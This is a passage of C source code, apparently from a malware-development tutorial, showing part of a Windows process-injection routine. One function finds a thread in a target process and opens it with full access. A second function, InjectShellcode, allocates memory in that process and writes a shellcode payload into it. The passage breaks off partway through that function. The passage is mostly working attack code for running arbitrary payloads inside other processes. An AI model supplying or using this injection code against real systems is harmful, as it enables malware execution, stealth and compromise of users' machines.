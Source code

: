 ```c
					.dwSize = sizeof(THREADENTRY32)
	};

	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		if (Thr.th32OwnerProcessID == dwProcessId) {

			*dwThreadId = Thr.th32ThreadID;
			*hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}

BOOL InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode, PVOID* ppAddress) {


	SIZE_T	sNumberOfBytesWritten = NULL;
	DWORD	dwOldProtection = NULL;


	*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (*ppAddress == NULL) {
		printf("\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("\t[i] Allocated Memory At : 0x%p \n", *ppAddress);


	printf("\t[#] Press <Enter> To Write Payload ... ");
	getchar();
	if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("\t[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);

```